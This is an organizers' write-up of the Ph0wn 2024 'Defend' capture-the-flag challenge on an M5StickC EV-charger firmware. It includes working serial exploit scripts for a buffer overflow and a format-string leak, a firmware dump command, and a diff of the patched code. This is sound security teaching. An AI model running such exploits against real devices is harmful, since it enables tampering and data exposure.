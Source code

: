 # Pwn challenges at Ph0wn 2024

## Defend by Cryptax and Az0x

In this challenge, you are given a vulnerable source code and a M5 device. The goal of participants is to fix vulnerabilities, without removing any feature (precise mandatory specs are provided).

![Operational M5StickC device with challenge program](./images/defend-stick.jpg)

### Vulnerability #1: Buffer Overflow in `readInput`

The message customization menu contains a buffer overflow. The variable itself has **20 bytes**.

```c
#define MAX_INPUT_LEN 128

int batteryLevel = 100;
uint8_t message[20] = "EV Charger 0.12\0";
```

When we select menu 1, we call `readInput` with `message`.

```c
void handleMenuSelection() {
  switch (menuOption) {
	case 1:
      readInput(message);
```	

And `readInput` will read up to `MAX_INPUT_LEN` characters.

```c
int readInput(uint8_t *buf) {
  Serial.print("Enter (# to finish): ");
  int i=0;
  while(i<MAX_INPUT_LEN-1) {
```

Therefore, **we will overflow after the 20th character**. 
The overflow will occur in the variable just above, which happens to be `batteryLevel` (and more).

### Exploiting the buffer overflow 

We wish to modify the battery level to a negative value, so we need to write precisely 20 characters and then 4 bytes for batteryLevel: `\xf6\xff\xff\xff` is -10 for example.


```python
import serial
import time
s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)


s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
s.write(b"A"*20+b"\xf6\xff\xff\xff"+b"#")
time.sleep(1)
print(s.read_all())
```

### Vulnerability #2: Format String in message customization

The message customization also has a **format string** vulnerability!
Indeed, `readInput` will accept *any* character (apart `#` which terminates the string), and will display the message without any prior check at `updateBatteryDisplay()`:

```c
M5.Display.printf((const char*)message); 
```

### Exploting the Format String in `updateBatteryDisplay`

Consequently, we can input format strings such as `%p`, `%x`, `%s` etc to read variables. You'll find out that using 8 `%p` displays the flag.

```python
import serial
import time

s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)
s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
sent = b'A '+ b'%p '*8 +b'#'
s.write(sent)
time.sleep(1)
received = s.read_all()
print(received)
```

Result: 
```
b' A %p %p %p %p %p %p %p %p \r\nA 0x0 0x7f 0x3ffc2c50 0x3ffb21ec 0xd2083 0x5 0x3ffc256c 0x3ffc25b4 \nStatus: Charges=0 
Battery=622882853%\nph0wn{0rganiZers_are_talenT3D}\nMenu:\r\n1. Custom message\r\n2. Admin\r\nSelect an option: '
```

### Vulnerability #3: unprotected memory dump

The strings in the firmware are not protected. If we dump the firmware and search for strings, we find the flag.

```
$ esptool.py -b 921600 --port /dev/ttyACM0 read_flash 0x00000 0x400000 flash_4M.bin
$ strings flash_4M.bin | grep ph0wn
```

A possible solution is to encrypt the flag in the firmware and decrypt it when it needs to be displayed. Then, the firmware would need to be reversed to (1) understand the encryption algorithm, (2) pick up the decryption key and (3) decrypt the encrypted flag.


### Organizers script

The organizer scripts was testing:

1. Compliance to the specs, e.g. that the intentional backdoor was still operational.
2. Buffer overflow in `readInput` with various amounts of `A` preceding the battery level overflow.
3. Format String in message display with various amounts of `%p` in the custom message.
4. Firmware dump. Our script was very basic and would only detect plain text flags. A simple Base64 encoding would have defeated it.

![Participants had to leave the backdoor to be compliant with specs](./images/defend-backdoor.jpeg)
![Organizers scripts running on a non fixed firmware](./images/defend-fail.png)

Participants were given a first flag is the buffer overflow and the format string was fixed, and a second flag for firmware dump.

In `handleMenuSelection()`, there was another potential format string vulnerability, because `printf` is called on a non-sanitized message.

```c
void handleMenuSelection() {
  switch (menuOption) {
    case 1:
      readInput(message);
      Serial.println("");
      Serial.printf((const char*)message); 
      break;
``` 

In `checkPassword()`, the function was using `sprintf` which is known to be risky and better replaced by `snprintf`.

Our scripts did not check these.

### Fixed sketch

1. Buffer overflow in `readInput`. Fix by setting `MAX_INPUT_LEN` accordingly to `message` buffer length.
2. Format string in `updateBatteryDisplay`. Fix by replacing `M5.Display.printf` by `M5.Display.print`. Note it would be safer to **sanitize** the message too.
3. Memory dump. Fix by encrypting the flag. This is sufficient to bypass our test script, but far more can be done: safer mode than EBC, storing the AES key in a secure area or remotely or obfuscating it etc. We wanted to keep the solution simple, without needing to download any additional library.
4. Format string in `handleMenuSelection`. Fix by replacing `Serial.printf` by `Serial.print`
5. Potential buffer overflow in `checkPassword`. Fix by replacing `sprintf` by `snprintf`

Not so easy to fix, wasn't it?

```diff
3a4
> #include <AES.h> 
6c7
< #define MAX_INPUT_LEN 128
---
> #define MAX_INPUT_LEN 20 // fix buffer overflow vulnerability
10,11c11,25
< uint8_t message[20] = "EV Charger 0.12\0";
< const char *FLAG = "ph0wn{0rganiZers_are_talenT3D}\0";
---
> uint8_t message[20] = "Fixed EV Charger\0";
> 
> // AES key to encrypt the organizer flag
> const uint8_t AES_KEY[16] = {0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
>                              0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F};
> 
> // Flag is encrypted to prevent seeing it with a mere "strings" when dumping
> // the firmware. For better security, consider using something stronger than
> // AES-EBC and secure the encryption key
> const uint8_t encryptedFlag[] = {
>     0xEF, 0x0E, 0xDB, 0x77, 0xFE, 0x9B, 0xFF, 0x16,
>     0xD6, 0x66, 0x45, 0xAB, 0x7C, 0xB0, 0x74, 0x94,
>     0xCD, 0x18, 0x30, 0x72, 0x31, 0x1A, 0x5A, 0xB9,
>     0xFE, 0xF3, 0x18, 0xA6, 0x1B, 0xE5, 0x97, 0x6F
> };
52a67,69
>     if (menuOption < 0 || menuOption > 10) {
>       menuOption = 0; // quick fix for int parsing
>     }
63c80,83
<     Serial.printf("%s\n", FLAG);
---
>     size_t length = sizeof(encryptedFlag);
>     uint8_t decryptedFlag[length];
>     decryptFlag(decryptedFlag, length);
>     Serial.printf("%s\n", decryptedFlag);
76c96
<       Serial.printf((const char*)message);
---
>       Serial.print((const char*)message); // fixing potential format string vulnerability
132,133c152,153
<   for (int i = 0; i < SHA256_SIZE; i++) {
<     sprintf(&hashedPassword[i * 2], "%02x", hash[i]);
---
>   for (int i = 0; i < SHA256_SIZE; i++) { // better to use snprintf
>     snprintf(&hashedPassword[i * 2], sizeof(hashedPassword) - (i * 2), "%02x", hash[i]);
239c259,262
<     M5.Display.printf("%s\n", FLAG);
---
>     size_t length = sizeof(encryptedFlag);
>     uint8_t decryptedFlag[length];
>     decryptFlag(decryptedFlag, length);
>     M5.Display.printf("%s\n", decryptedFlag);
274c297
<   M5.Display.printf((const char*)message); 
---
>   M5.Display.print((const char*)message); // fix format string vulnerability
275a299,307
> 
> void decryptFlag(uint8_t *output, size_t length) {
>     AES128 aes;
>     
>     aes.setKey(AES_KEY, sizeof(AES_KEY));
>     aes.decryptBlock(output, encryptedFlag);
>     aes.decryptBlock(output+16, encryptedFlag+16);
>     aes.clear();
> }
```
